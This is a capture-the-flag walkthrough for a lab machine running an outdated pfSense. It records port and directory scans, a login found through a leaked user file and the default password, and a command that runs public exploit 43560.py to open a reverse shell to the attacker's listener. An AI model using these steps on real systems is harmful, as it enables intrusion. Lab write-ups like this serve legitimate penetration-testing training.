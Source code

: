 # Sense

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.96 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 07:48 EDT
Nmap scan report for 10.129.85.96
Host is up (0.0088s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

2 ports that are open.

### pfSense Creds + RCE

Visiting the IP address redirects us to port 443 where pfSense is running:

<figure><img src="../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can run a `dirbuster` scan to see what else is on the port because we have no credentials right now. We can include all the common extensions using `-e php,html,txt` to see all possible files on the machine.

```bash
$ dirbuster -u https://10.129.85.96/ -t 20 -l /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e php,txt,html
<TRUNCATED>
File found: /edit.php - 200
File found: /license.php - 200
File found: /system.php - 200
File found: /status.php - 200
File found: /changelog.txt - 200
File found: /exec.php - 200
File found: /graph.php - 200
Dir found: /tree/ - 200
File found: /tree/index.html - 200
File found: /tree/tree.js - 200
File found: /wizard.php - 200
File found: /pkg.php - 200
Dir found: /installer/ - 302
File found: /installer/index.php - 302
File found: /installer/installer.php - 200
File found: /xmlrpc.php - 200
File found: /reboot.php - 200
File found: /interfaces.php - 200
FIle Found: /system-users.txt - 200
```

One of them is called `system-users.txt`. The file contains this:

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

So the username is Rohit and the password is the default password. In this case, the default password for this software is `pfsense`. We can then login and see the version running:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This is an outdated version of pfSense running, and it is vulnerable to an RCE exploit.

```
$ searchsploit pfsense 2.1.3
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injec | php/webapps/43560.py
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We can download this exploit and use it to get a reverse shell.

```bash
python3 43560.py --rhost 10.129.85.96 --lhost 10.10.14.13 --lport 4444 --username rohit --password pfsense
```

<figure><img src="../../../.gitbook/assets/image (32) (1) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
